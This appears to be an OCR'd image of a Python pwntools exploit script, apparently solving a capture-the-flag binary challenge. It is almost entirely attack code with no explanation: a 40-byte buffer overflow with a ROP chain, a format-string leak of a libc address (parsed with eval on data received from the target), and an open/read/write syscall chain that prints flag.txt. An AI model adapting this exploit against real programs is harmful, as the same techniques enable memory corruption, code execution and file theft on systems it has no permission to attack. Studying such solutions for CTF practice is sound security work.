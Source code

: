 ```python
        r.raw(main_addr)
        
        # send rop chain
        pay = cyclic(40)
        pay += r.chain()
        p.sendline(pay)
        
        # send text
        p.sendline(b"%p")
        leak = p.recvuntil(b"Do you bop? ").split(b"Do")[0]
        leak = eval(leak)
        libc.address = leak - 0x1eca03
        info(f"{libc.address=:x}")


x, p = init()

x.get_libc_addr()
r = ROP(libc)

x.debug((
    f"break *{r.find_gadget(['syscall', 'ret'])[0]}"
))

# write to arbitary address
r.raw(pop_rdi)
r.raw(empty_addr)
r.gets()

# open file 
r(rax=0x2, rdi=empty_addr,rsi=0, rdx=0)
r.raw(r.find_gadget(['syscall', 'ret']))

# save file pointer rax to rdi
r.raw(mov_edi_eax+libc.address)

# read file
r(rax=0, rsi=empty_addr, rdx=0x50)
r.raw(r.find_gadget(['syscall', 'ret']))

# write to stdin
r(rax=1, rdi=1, rsi=empty_addr, rdx=0x50)
r.raw(r.find_gadget(['syscall', 'ret']))

pay = cyclic(40)
pay += r.chain()
p.sendline(pay)
p.sendline("flag.txt")

p.interactive()
```

